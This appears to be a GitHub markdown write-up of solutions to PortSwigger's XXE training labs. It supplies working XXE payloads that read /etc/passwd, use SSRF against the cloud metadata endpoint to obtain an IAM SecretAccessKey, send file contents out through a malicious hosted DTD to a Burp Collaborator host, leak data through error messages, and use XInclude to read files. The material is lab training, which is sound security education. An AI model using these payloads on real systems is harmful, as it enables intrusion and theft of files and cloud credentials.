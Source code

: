 <!-- omit in toc -->
# XXE

<!-- omit in toc -->
## Table of Contents

- [Exploiting XXE using external entities to retrieve files](#exploiting-xxe-using-external-entities-to-retrieve-files)
- [Exploiting XXE to perform SSRF attacks](#exploiting-xxe-to-perform-ssrf-attacks)
- [Blind XXE with out-of-band interaction](#blind-xxe-with-out-of-band-interaction)
- [Blind XXE with out-of-band interaction via XML parameter entities](#blind-xxe-with-out-of-band-interaction-via-xml-parameter-entities)
- [Exploiting blind XXE to exfiltrate data using a malicious external DTD](#exploiting-blind-xxe-to-exfiltrate-data-using-a-malicious-external-dtd)
- [Exploiting blind XXE to retrieve data via error messages](#exploiting-blind-xxe-to-retrieve-data-via-error-messages)
- [Exploiting XInclude to retrieve files](#exploiting-xinclude-to-retrieve-files)

## Exploiting XXE using external entities to retrieve files
Reference: https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files

<!-- omit in toc -->
### Solution
1. Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
2. Insert the following external entity definition in between the XML declaration and the ``stockCheck`` element:
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```
3. Replace the ``productId`` number with a reference to the external entity: ``&xxe;``. The response should contain "Invalid product ID:" followed by the contents of the ``/etc/passwd`` file.

## Exploiting XXE to perform SSRF attacks
Reference: https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf

<!-- omit in toc -->
### Solution 
1. Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
2. Insert the following external entity definition in between the XML declaration and the ``stockCheck`` element:
```
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
```
3. Replace the ``productId`` number with a reference to the external entity: ``&xxe;``. The response should contain "Invalid product ID:" followed by the response from the metadata endpoint, which will initially be a folder name.
4. Iteratively update the URL in the DTD to explore the API until you reach ``/latest/meta-data/iam/security-credentials/admin``. This should return JSON containing the ``SecretAccessKey``.

## Blind XXE with out-of-band interaction
Reference: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction

<!-- omit in toc -->
### Solution
1. Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.
2. Go to the Burp menu, and launch the Burp Collaborator client.
3. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
4. Insert the following external entity definition in between the XML declaration and the ``stockCheck`` element, but insert your Burp Collaborator subdomain where indicated:
```
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net"> ]>
```
5. Replace the ``productId`` number with a reference to the external entity:
```
&xxe;
```
6. Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

## Blind XXE with out-of-band interaction via XML parameter entities
Reference: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities

<!-- omit in toc -->
### Solution
1. Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.
2. Go to the Burp menu, and launch the Burp Collaborator client.
3. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
4. Insert the following external entity definition in between the XML declaration and the ``stockCheck`` element, but insert your Burp Collaborator subdomain where indicated:
```
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net"> %xxe; ]>
```
5. Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

## Exploiting blind XXE to exfiltrate data using a malicious external DTD
Reference: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration

<!-- omit in toc -->
### Quick Solution
In this lab a **malicious** DTD must be crafted and hosted on the exploit server and the **check stock** request must be tampered by adding a XML parameter entity. Payload in the next paragraph.

<!-- omit in toc -->
### Solution
1. Using Burp Suite Professional, go to the Burp menu, and launch the Burp Collaborator client.
2. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
3. Place the Burp Collaborator payload into a malicious DTD file:
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;
```
4. Click "Go to exploit server" and save the malicious DTD file on your server. Click "View exploit" and take a note of the URL.
5. You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
6. Insert the following external entity definition in between the XML declaration and the ``stockCheck`` element:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```
7. Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again.
8. You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The HTTP interaction could contain the contents of the ``/etc/hostname`` file.

## Exploiting blind XXE to retrieve data via error messages
Reference: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages

<!-- omit in toc -->
### Solution
1. Click "Go to exploit server" and save the following malicious DTD file on your server:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```
When imported, this page will read the contents of ``/etc/passwd`` into the ``file`` entity, and then try to use that entity in a file path.
1. Click "View exploit" and take a note of the URL for your malicious DTD.
2. You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
3. Insert the following external entity definition in between the XML declaration and the ``stockCheck`` element:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```
You should see an error message containing the contents of the ``/etc/passwd`` file.

## Exploiting XInclude to retrieve files
Reference: 

<!-- omit in toc -->
### Solution
1. Visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
2. Set the value of the ``productId`` parameter to:
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```